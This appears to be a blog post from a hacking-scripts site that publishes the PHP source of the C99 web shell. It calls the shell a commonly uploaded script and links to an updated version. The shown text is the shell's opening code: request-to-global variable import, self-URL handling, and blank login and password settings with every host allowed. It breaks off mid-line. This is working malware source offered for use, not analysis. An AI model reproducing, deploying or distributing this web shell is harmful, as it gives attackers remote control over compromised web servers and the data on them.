 ```yaml
---
id: 24
title: C99 shell
author: admin
layout: post
guid: http://hackingscripts.com/?p=24
permalink: /c99-shell/
categories:
  - C99
  - PHP
---
```

This is one of the most commonly uploaded shell scripts to my website. 

The below script looks like an old version. Check out the [updated c99 script here.][1]

## C99 Shell Script Source Code

<pre class="brush: php; title: ; notranslate" title="">&lt;?php 
//Starting calls 
if (!function_exists("getmicrotime")) {function getmicrotime() {
    list($usec, $sec) = explode(" ", microtime()); return ((float)$usec + (float)$sec);}} 
error_reporting(5); 
@ignore_user_abort(TRUE); 
@set_magic_quotes_runtime(0); 
$win = strtolower(substr(PHP_OS,0,3)) == "win"; 
define("starttime",getmicrotime()); 
if (get_magic_quotes_gpc()) {if (!function_exists("strips")) {function strips(&$arr,$k="")
    {if (is_array($arr)) {foreach($arr as $k=&gt;$v) {if (strtoupper($k) != "GLOBALS") {
        strips($arr["$k"]);}}} else {$arr = stripslashes($arr);}}} strips($GLOBALS);} 
$_REQUEST = array_merge($_COOKIE,$_GET,$_POST); 
foreach($_REQUEST as $k=&gt;$v) {if (!isset($$k)) {$$k = $v;}} 
$shver = "1.0 pre-release build #16"; //Current version 
//CONFIGURATION AND SETTINGS 
if (!empty($unset_surl)) {setcookie("c99sh_surl"); $surl = "";} 
elseif (!empty($set_surl)) {$surl = $set_surl; setcookie("c99sh_surl",$surl);} 
else {$surl = $_REQUEST["c99sh_surl"]; //Set this cookie for manual SURL 
} 
$surl_autofill_include = TRUE; // If TRUE then search variables with 
                               // descriptors (URLs) and save it in SURL. 
if ($surl_autofill_include and !$_REQUEST["c99sh_surl"]) {$include = "&"; 
    foreach (explode("&",getenv("QUERY_STRING")) as $v) {$v = explode("=",$v); 
    $name = urldecode($v[0]); $value = urldecode($v[1]); 
    foreach (array("http://","https://","ssl://","ftp://","\\\\") as $needle) {
        if (strpos($value,$needle) === 0) {$includestr .= urlencode($name)."=".
            urlencode($value)."&";}}} 
        if ($_REQUEST["surl_autofill_include"]) {
            $includestr .= "surl_autofill_include=1&";}} 
if (empty($surl)) { 
    $surl = "?".$includestr; //Self url 
} 
$surl = htmlspecialchars($surl); 
$timelimit = 0; // time limit of execution this script over 
                // server quote (seconds), 0 = unlimited. 
//Authentication 
$login = ""; //login 
//DON'T FORGOT ABOUT PASSWORD!!! 
$pass = ""; //password 
$md5_pass = ""; //md5-cryped pass. if null, md5($pass) 
$host_allow = array("*"); //array ("{mask}1","{mask}2",...), 
    {mask} = IP or HOST e.g. array("192.168.0.*","127.0.0.1") 
$login_txt = "Restricted area"; //http-auth message. 
$accessdeniedmess = "&lt;a href=\"http://ccteam.ru/releases/c99shell\"&gt;